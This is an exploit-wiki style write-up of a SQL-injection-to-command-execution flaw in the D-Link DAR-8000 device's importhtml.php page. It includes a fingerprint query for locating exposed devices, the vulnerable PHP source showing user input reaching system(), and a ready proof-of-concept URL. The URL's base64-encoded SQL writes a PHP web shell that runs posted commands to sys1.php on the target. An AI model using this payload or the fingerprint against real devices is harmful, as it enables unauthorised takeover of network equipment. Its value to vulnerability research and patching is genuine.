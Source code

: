 # D-Link DAR-8000 Importhtml.php Remote Command Execution Vulnerability

## Vulnerability Description

D-Link DAR-8000 SQL injection caused remote command execution vulnerability in the importml.php file

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">D-Link DAR-8000</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">body="mask.style.visibility"</span>

## Vulnerability reappears

Login page



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210718220233977.png)



File with vulnerability `importhtml.php`



```php
<?php 
include_once("global.func.php");
if($_SESSION['language']!="english")
{
	require_once ("include/language_cn.php");
}
else 
{
	require_once ("include/language_en.php");
}

if(isset($_GET['type'])) $get_type = $_GET['type'];
if(isset($_GET['tab'])) $get_tab = $_GET['tab'];
if(isset($_GET['sql'])) $get_sql = $_GET['sql'];

if($get_type == "exporthtmlpost")	
{
	$get_tab = $arr_export_cn[$get_tab];
	exportHtml("$get_tab",stripslashes(base64_decode($get_sql)));
}
elseif($get_type == "exporthtmlchat")	
{
	$get_tab = $arr_export_cn[$get_tab];
	exportHtmlChat("$get_tab",stripslashes(base64_decode($get_sql)));
}
elseif($get_type == "exporthtmlmail")	
{
	$get_tab = $arr_export_cn[$get_tab];
	exportHtmlMail("$get_tab",stripslashes(base64_decode($get_sql)));
}
elseif($get_type == "exporthtmlwebsend")	
{
	$get_tab = $arr_export_cn[$get_tab];
	exportHtmlWebSend("$get_tab",stripslashes(base64_decode($get_sql)));
}
elseif($get_type == "exporthtmlwebrecv")	
{
	$get_tab = $arr_export_cn[$get_tab];
	exportHtmlWebRecv("$get_tab",stripslashes(base64_decode($get_sql)));
}
?>
```



Tracking exportHtmlMail function



```php
function exportHtmlMail($filename,$sql){

	Header( "Expires: 0" );

	Header( "Pragma: public" );

	Header( "Cache-Control: must-revalidate, post-check=0, pre-check=0" );

	Header( "Cache-Control: public");

	Header( "Content-Type: application/octet-stream" );

	header("Accept-Ranges: bytes");

	header("Content-Disposition: attachment; filename=$filename.html");

	echo "<html>\n";

	echo "<head><title>报表</title></head>\n";

	echo "<body>\n";

	$conn = connOther();

	$result = mysql_query($sql,$conn);

	while ($data= mysql_fetch_array($result)){

		$post_content = "";

		if($data['mail_file_path'] == "(null)"){

			$post_content = "<font color=red>内容审计未启用</font>";

		}

		else{



			$post_filename=$data['mail_file_path'];

			$ifother = "";

			$ifother = ifExistOther($post_filename);

			if($ifother!=""){

				$post_filename = $ifother;

			}

			$str = "/usr/bin/cap2con $post_filename pop";

			system($str,$returnvalue);

			$post_filename=str_replace(".cap",".eml",$post_filename);

			$post_content = file_get_contents($post_filename);

			$rec=new mime_decode;

			$post_content=$rec->decode_mime_string($post_content);

			//...

		}

	}

}
```



Here we can find that the result of the Sql statement executed after decoding through base64 is passed into the function exportHtmlMail to call system execution, and $post_filename is controllable



```php
$str = "/usr/bin/cap2con $post_filename pop";
```



Verify POC



```plain
https://xxx.xxx.xxx.xxx/importhtml.php?type=exporthtmlmail&tab=tb_RCtrlLog&sql=c2VsZWN0IDB4M2MzZjcwNjg3MDIwNjU2MzY4NmYyMDczNzk3Mzc0NjU2ZDI4MjQ1ZjUwNGY1MzU0NWIyMjYzNmQ2NDIyNWQyOTNiM2YzZSBpbnRvIG91dGZpbGUgJy91c3IvaGRkb2NzL25zZy9hcHAvc3lzMS5waHAn
```



After successful access, the download log file will be triggered, and then access sys1.php



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210718204705207-20220314115514184.png)
